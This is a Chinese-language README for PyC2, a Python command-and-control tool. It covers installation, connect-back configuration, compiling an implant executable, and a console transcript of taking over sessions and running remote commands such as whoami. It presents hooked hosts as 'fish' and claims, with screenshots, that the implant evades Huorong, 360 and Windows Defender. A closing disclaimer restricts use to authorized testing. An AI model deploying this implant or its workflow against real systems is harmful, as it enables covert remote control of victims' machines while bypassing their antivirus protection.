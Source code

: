 # python版简易Command and Control (C2) 

## 介绍

1. 使用socket建立网络传输
2. 解决了tcp粘包问题
3. 支持多个sessions切换
4. 跨平台支持windows/linux
5. 支持系统命令执行功能
6. 解决implant异常退出
7. 上线语音播报提示
8. 等等...

## 安装

环境

```
python >= 3.7
windows/linux
```

安装

````
git clone https://github.com/1derian/PyC2.git
cd PyC2
pip3 install -r requirements.txt
````

## 使用

编辑配置文件

```
vim settings.py

SERVER_LISTEN_IP = "127.0.0.1"  # c2server监听地址,如果是vps上使用,监听0.0.0.0,内网地址监听对应地址即可
SERVER_LISTEN_PORT = 7788       # c2server监听端口
AGENT_CONNECT_IP = "127.0.0.1"  # agent回连c2的ip地址
AGENT_CONNECT_PORT = 7788       # agent回连c2的端口
SERVER_LISTEN_NUM = 20          # c2server监听的个数
```

启动服务端

```
python3 pyc2server.py
```

由于python打包不支持跨平台编译 , 需要使用者在对应的平台上事先编译好

编译命令

```
windows
python3 gen.py -f implant.py -o implant.exe

linux
python3 gen.py -f implant.py -o implant
```

运行 implant , pyc2server收到对应的sessions链接

```
双击运行生成的 implant.exe

D:\PyC2>python3 pyc2server.py
[+](no_session) >新鱼上钩, 地址: ('127.0.0.1', 11142)

[+](no_session) >
```

查看sessions

```
[+](no_session) >sessions
1 ('127.0.0.1', 11142)
```

进入session , 并执行命令

```
[+](no_session) >sessions -i 1
('127.0.0.1', 11142)>whoami
win11\administrator
```

杀死 session

```
[+](no_session) >kill 1
[+](no_session) >sessions
当前sessions为空
```

查看帮助

```
[+](no_session) >help

        Command and Control (C2)

        sessions                          显示存活的session回话
        session -i *session id*           进入指定回话的shell,输入quite退出shell
        kill *session id*                 退出指定回话
        help                              打印帮助信息
        clear                             清空屏幕
        exit                              退出c2并关闭所有回话
```

清除当前终端内容

```
[+](no_session) > clear
```

退出pyc2server

```
[+](no_session) >exit

D:\PyC2>
```

## 免杀测试

火绒

![image-20220605141817304](https://picgo-1301783483.cos.ap-nanjing.myqcloud.com/image/image-20220605141817304.png)

360

![image-20220605141848450](https://picgo-1301783483.cos.ap-nanjing.myqcloud.com/image/image-20220605141848450.png)

windows defender

![image-20220605141903936](https://picgo-1301783483.cos.ap-nanjing.myqcloud.com/image/image-20220605141903936.png)

## 免责声明🧐

本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建测试环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。
